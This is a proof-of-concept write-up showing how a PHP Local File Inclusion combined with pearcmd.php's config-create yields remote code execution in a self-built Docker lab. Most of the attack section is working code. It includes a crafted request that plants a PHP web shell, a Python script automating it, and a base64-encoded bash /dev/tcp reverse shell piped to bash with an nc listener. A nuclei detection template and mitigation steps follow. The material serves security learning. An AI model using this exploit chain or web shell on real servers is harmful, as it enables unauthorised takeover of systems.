# PHP <= 7.3 Local File Inclusion RCE with LFI (PoC)


This post aims to acquire knowledge about exploiting vulnerabilities in web systems. In this instance, I will delve into an LFI (Local File Inclusion) vulnerability and an RCE (Remote Code Execution) vulnerability. I will utilize the tools within the 'pearcmd.php' file to craft manipulated files. Within a web environment, we can leverage the functionalities of 'pearcmd' by controlling command-line parameters. This Proof of Concept (PoC) is highly specialized, yet it serves as an opportunity for me to explore new methods of penetration within web environments.

# Summary

- [Summary](#summary)
- [Introduction](#introduction)
- [Environment Setup](#environment-setup)
  - [Docker](#docker)
  - [PHP Environment](#php-environment)
- [Exploration](#exploration)
  - [Initialization](#initialization)
  - [Exploit](#exploit)
- [Reverse Shell](#reverse-shell)
- [Real World](#real-world)
- [Mitigation](#mitigation)
- [References](#references)

# Introduction

I would like to start by thanking the cybersecurity community and a few people who were instrumental in this post. First, I want to express my gratitude to [@phithon_xg](https://twitter.com/phithon_xg) for all the hard work he has done. I highly recommend reading the article he published on this topic. I would also like to thank [@_JohnHammond](https://twitter.com/_JohnHammond) for bringing this topic to light and creating a very informative video about this proof of concept.

In this exploration, we'll embark on a quest to understand and exploit two critical security issues: LFI (Local File Inclusion) and RCE (Remote Code Execution). Our path leads us to the powerful 'pearcmd.php' file, a toolkit that enables us to craft manipulated files and exert control over a web environment by manipulating command-line parameters.

This post introduces a highly focused Proof of Concept (PoC), designed to push the boundaries of penetration within web environments. While specific in scope, it serves as a valuable opportunity to expand our knowledge and gain insights into innovative techniques for securing web systems. Join us on this enlightening journey as we unlock the secrets of web system vulnerabilities.

# Environment Setup

The test environment will be created within a CT (Container) in Proxmox by installing PHP through Docker. This approach simplifies the setup of a testing environment, specifically with PHP version 7. However, it's important to note that for this environment to function as intended, there must exist a pre-existing vulnerability related to Local File Inclusion (LFI). This vulnerability is the key to our exploration and allows us to demonstrate and understand the exploitation of LFI and RCE vulnerabilities effectively.

## Docker

In this Docker code block, we are setting up a container environment based on the PHP 7.0.0 image. The COPY section copies all files from the 'app' directory to the '/var/www/html/' directory within the container. We then set the working directory to '/var/www/html/' and start an embedded PHP server on port 8080.

```docker
FROM php:7.0.0
COPY app/* /var/www/html/
WORKDIR /var/www/html/
CMD ["php", "-S", "0.0.0.0:8080"]
```

```bash
mkdir app
cd app
```

## PHP Environment

Here, in the 'app/index.php' file, we have a simple PHP script. It performs a file inclusion based on the 'file' parameter passed through the request. This is an example of vulnerable code, as there is no proper validation of the 'file' parameter, making it susceptible to Local File Inclusion (LFI) attacks.

File `app/index.php`
```php
<?php
  include $_REQUEST['file'];
?>
```

In the 'app/phpinfo.php' file, we have a script that displays PHP information in the phpinfo() format. This file doesn't have a specific vulnerability but is included for demonstration purposes and to provide useful information about the PHP configuration in the test environment.

File `app/phpinfo.php`
```php
<?php
  phpinfo();
?>
```

# Exploration

Once the environment is configured, the container must be initialized and its bash opened.

## Initialization
```bash
sudo docker build -t phpfilerce .
sudo docker run -d -p 8080:8080 phpfilerce
docker ps
sudo docker exec -it <CONTAINER ID> /bin/bash
```

## Exploit

Once we create a phpinfo file, we will open it in the browser at `http://localhost:8080/phpinfo.php`.
In order for this exploit to work, we should look for the "Directive" `register_argc_argv` and the "Local Value" and the "Master Value" should be set to "ON".



If so, then we can experiment with these arguments by adding the string `?h4ndsh` immediately after the "phpinfo.php".
We can verify that an array is created in $_SERVER["argv"].



Following the post from [@phithon_xg](https://twitter.com/phithon_xg) it is possible, from the index.php file, to invoke an action from pearcmd and cerate files. This "pearcmd" is a PHP script that is used to interact with PEAR, a repository of PHP extensions and applications. It is used to install, uninstall, update, and manage PEAR packages. For this PoC, we will use the config-create function. 






We can create the files in the terminal, or we can do something more interesting, which is, from the phpinfo.php file, from a crafted URL and execute this function.


To test this action, I used [Caido](https://caido.io/), a web security auditing toolkit similar to [BurpSuite](https://portswigger.net/burp).

In this request, the `<?=phpinfo()?>` function is placed inside the new PHP file:

```http
GET /index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/<?=phpinfo()?>+/tmp/h4ndsh.php HTTP/1.1
Host: 192.168.1.202:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
```




The `index.php` file plays a crucial role in our testing. It was intentionally designed with a vulnerability inserted, allowing us to call the file we are injecting. In a real-world or Capture The Flag (CTF) environment, different methods may be needed to trigger the injected file. The screenshot shows the contents of index.php, highlighting the vulnerability.



Now, we are prepared to test our command injection capabilities by opening index.php, which is designed to include any specified file. To do this, we provide the precise path to the file we want using the tool Caido, accessed via `http://localhost:8080/index.php?file=/tmp/h4ndsh.php`. If the injection works, the PHPinfo page should reappear, indicating success.




In order to inject commands into the server effectively, I am planning to create a custom 'console' that is accessible via a URL. To streamline this process and eliminate the need for manual URL adjustments in a web browser or the use of tools like Burp Suite, I have chosen to utilize Python3. This decision allows for automation, making the testing process more efficient and controlled.

```python
import http.client
import urllib

host = "192.168.1.202"
port = 8080
conn = http.client.HTTPConnection(host, port)

# Create console 
cmd_shell = "<?=die(system($_GET['cmd']))?>"
conn.request("GET", f"/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/{cmd_shell}+/tmp/h4ndsh.php")
conn.close()
```

URL: `http://192.168.1.202:8080/index.php?file=/tmp/h4ndsh.php&cmd=id`



# Reverse Shell

In a scenario where a server allows the injection of Unix commands, such as through vulnerabilities like Local File Inclusion (LFI) or Remote Code Execution (RCE), it becomes possible to send a specific command to establish a reverse shell. A reverse shell is a connection initiated from the compromised server to the attacker's machine, providing the attacker with control over the server. To achieve this, I modify a previously used Python3 script to inject a command that opens a reverse shell on their own computer. For ease of use, the reverse shell command is encoded in base64, with the IP address "192.168.1.110" and port "2030" specified as the connection destination.

```bash
echo 'bash -c "sh -i >& /dev/tcp/192.168.1.110/2030 0>&1"' | base64 -w 0
``` 

Add the new code to the existing code, replacing `<base64>` with the set of characters generated by the base64 command.

```python3
# inject the command
conn = http.client.HTTPConnection(host, port)
cmd = urllib.parse.quote('<base64>')
conn.request("GET", f"/index.php?file=/tmp/h4ndsh.php&cmd=echo+{cmd}|base64+-d|bash")
conn.close()
```

This code only injects our console line into our `cmd` parameter created previously. Remembering that the file to which the commands are being written and interpreted in PHP, we have to add "echo cmd | base64 -d | bash" so that it is decoded (-d) and to be executed.

The complete code would look like this:

```python3
import http.client
import urllib

host = "192.168.1.202"
port = 8080
conn = http.client.HTTPConnection(host, port)

# Create console 
cmd_shell = "<?=die(system($_GET['cmd']))?>"
conn.request("GET", f"/index.php?+config-create+/&file=/usr/local/lib/php/pearcmd.php&/{cmd_shell}+/tmp/h4ndsh.php")
conn.close()

# inject the command
conn = http.client.HTTPConnection(host, port)
cmd = urllib.parse.quote('YmFzaCAtYyAic2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExMC8yMDMwIDA+JjEiCg==')
#call the file
conn.request("GET", f"/index.php?file=/tmp/h4ndsh.php&cmd=echo+{cmd}|base64+-d|bash")
conn.close()
```

Once we have the script ready, we should open a listener and then execute the script in python3.

```bash
nc -lvnp 2030
```

```bash
python3 request.py
```

And we successfully establish a connection.




# Real World

This detection does not necessarily imply that the web service is vulnerable. As mentioned earlier, the presence of a Local File Inclusion (LFI) vulnerability is required for the successful execution of the process outlined above, and each case may vary. However, to identify systems running PHP versions <= 7.3, we can utilize [nuclei](https://github.com/projectdiscovery/nuclei). This tool is capable of scanning for various vulnerabilities, including Remote Code Execution (RCE), SQL injection, and cross-site scripting (XSS), providing us with insights into potential security risks.

```bash
nuclei -u <target> -tags phpinfo -nc -silent
```

I developed a template to detect if argv and argc are active and if argument injection is working.

```yaml
id: check-register_argc_argv
info:
  name: Check register_argc_argv
  author: h4ndsh
  severity: high

http:
  - method: GET
    path:
      - "{{BaseURL}}?a805841404a60ccf326f0dbb006dc811"
    matchers-condition: and
    matchers:
      - type: status
        status:
          - 200
      - type: word
        words:
          - "[0] =&gt; a805841404a60ccf326f0dbb006dc811"
      - type: word
        words:
          - "<tr><td class=\"e\">register_argc_argv</td><td class=\"v\">On</td><td class=\"v\">On</td></tr>"
```

To conclude, we performed the verification.

```bash
nuclei -u <target> -t argv.yaml -nc -silent
```



# Mitigation

1. Disable register_argc_argv (if possible).
2. Check for and remove any directory exposure vulnerabilities.
3. Update PHP to the latest version.

```bash
echo "register_argc_argv = Off" > /usr/local/etc/php/php.ini
```



# References
[https://www.leavesongs.com](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html)

[https://www.php.net](https://www.php.net/manual/en/ini.core.php#ini.register-argc-argv)


Thanks :smile:
